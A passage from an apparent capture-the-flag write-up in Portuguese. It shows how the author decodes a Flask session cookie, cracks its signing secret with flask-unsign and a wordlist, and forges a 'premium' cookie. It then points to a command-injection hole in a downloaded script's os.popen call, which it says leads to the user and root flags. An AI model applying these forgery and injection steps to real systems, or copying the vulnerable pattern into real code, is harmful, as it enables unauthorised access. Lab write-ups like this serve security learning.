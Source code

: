 Se tentarmos fazer um decode no cookie conseguimos perceber que temos o parâmetro "premium":
```bash
echo 'eyJwcmVtaXVtIjoiZmFsc2UiLCJ1c2VyIjoiYWRtaW4xIn0.Yx6eUA.bzZ-4OjPJhj79bL6QY6o7Mzo_oE' | base64 -d

{"premium":"false","user":"admin1"}base64: invalid input
```
Pela minha experiência eu consegui deduzir que era um cookie de sessão do flask (e era mesmo), então eu tentei fazer um brute force do secret que assina a sessão usando [flask-unsign](https://pypi.org/project/flask-unsign/):
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJwcmVtaXVtIjoiZmFsc2UiLCJ1c2VyIjoiYWRtaW4xIn0.YxxBPQ.lFUMhPWzfT7rKckyAoZqM45TwBM' --no-literal-eval

[*] Session decodes to: {'premium': 'false', 'user': 'admin1'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 2304 attempts
b'mypassword'
```

Uma vez que temos o secret podemos alterar o parâmetro "premium" pra true e assinar o cookie:
```bash
flask-unsign --sign --cookie "{'premium': 'true', 'user': 'admin1'}" --secret 'mypassword'

eyJwcmVtaXVtIjoidHJ1ZSIsInVzZXIiOiJhZG1pbjEifQ.Yx6fDw.EdvXJlkgV0otly5XGqcHn-5IbpY
```

Agora podemos acessar /download que irá fazer o download do script que roda na rota /decoder
Lendo o source code facilmente podemos identificar uma issue de command injection:
```python
import os; from tkinter import *
...
def decode(txt):
	try:
		with os.popen(f'echo {txt} | base64 -d','r') as f: result = f.read() # command injection here
	except: result = 'isso ae nao e base64 nao ilkljkljk'

return result
...
```
Agora só explorar o command injection e pegar as flags de user e root (Não ententi pq separam em 2 flags, n precisei escalar privilégio...):